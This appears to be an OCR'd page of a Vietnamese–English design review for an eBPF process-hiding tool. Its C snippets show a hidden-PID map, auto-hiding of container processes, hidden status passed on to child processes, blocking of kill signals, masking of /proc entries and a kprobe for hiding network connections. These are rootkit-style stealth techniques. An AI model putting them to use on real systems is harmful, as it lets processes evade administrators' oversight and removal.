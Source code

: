 ### 4.1 **[Core Hiding Logic]** (Logic ẩn cốt lõi)

#### **[PID Hiding Mechanism]** (Cơ chế ẩn PID):

1. **[Explicit PID List]** (Danh sách PID tường minh):
   ```c
   hidden_pid_map: BPF_MAP_TYPE_HASH
   Key: u32 pid, Value: u32 flag (1 = hidden)
   ```

2. **[Container Auto-Detection]** (Tự động phát hiện container):
   ```c
   // Method 1: Namespace level analysis
   u32 level = BPF_CORE_READ(pid_ns, level);
   return level > 0;  // Container processes have level > 0
   
   // Method 2: Parent process tree scanning
   // Method 3: Process name pattern matching
   ```

3. **[Inheritance Model]** (Mô hình thừa kế):
   ```c
   // Children inherit hidden status from parents
   if (is_hidden_pid(parent_pid)) {
       bpf_map_update_elem(&hidden_pid_map, &child_pid, &val, BPF_ANY);
   }
   ```

### 4.2 **[Security Mechanisms]** (Cơ chế bảo mật)

#### ✅ **Multi-Layer Protection**:

1. **[Signal Protection]** (Bảo vệ signal):
   ```c
   // Block SIGKILL, SIGTERM, SIGINT to hidden processes
   if (is_hidden_pid(target_pid) && (sig == 9 || sig == 15 || sig == 2)) {
       bpf_override_return(ctx, -EPERM);
   }
   ```

2. **[Filesystem Protection]** (Bảo vệ filesystem):
   ```c
   // Block /proc/[PID] access
   if (is_proc_path(path) && is_hidden_pid(extract_pid(path))) {
       bpf_override_return(ctx, -ENOENT);
   }
   ```

3. **[Network Activity Masking]** (Che giấu hoạt động mạng):
   ```c
   // Hide network connections from hidden processes  
   SEC("kprobe/tcp_v4_connect")
   ```

### 4.3 **[Error Handling Assessment]** (Đánh giá xử lý lỗi)
